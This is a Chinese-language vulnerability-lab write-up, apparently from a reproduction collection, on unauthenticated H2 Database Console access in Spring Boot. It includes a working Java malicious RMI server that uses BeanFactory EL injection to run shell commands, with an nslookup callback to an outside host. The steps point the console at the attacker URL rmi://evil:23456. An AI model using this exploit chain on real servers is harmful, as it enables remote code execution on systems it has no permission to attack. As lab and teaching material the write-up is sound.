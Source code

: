 # H2 Database Console 未授权访问

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## 漏洞环境

执行如下命令启动一个Springboot + h2database环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/h2-console/`即可查看到H2 database的管理页面。

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具[JNDI](https://github.com/JosephTribbianni/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：

![](3.png)

然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：

![](1.png)

其中，`javax.naming.InitialContext`是JNDI的工厂类，URL `rmi://evil:23456/BypassByEL`是运行JNDI工具监听的RMI地址。

点击连接后，恶意RMI成功接收到请求：

![](2.png)

`touch /tmp/success`已成功执行：

![](4.png)
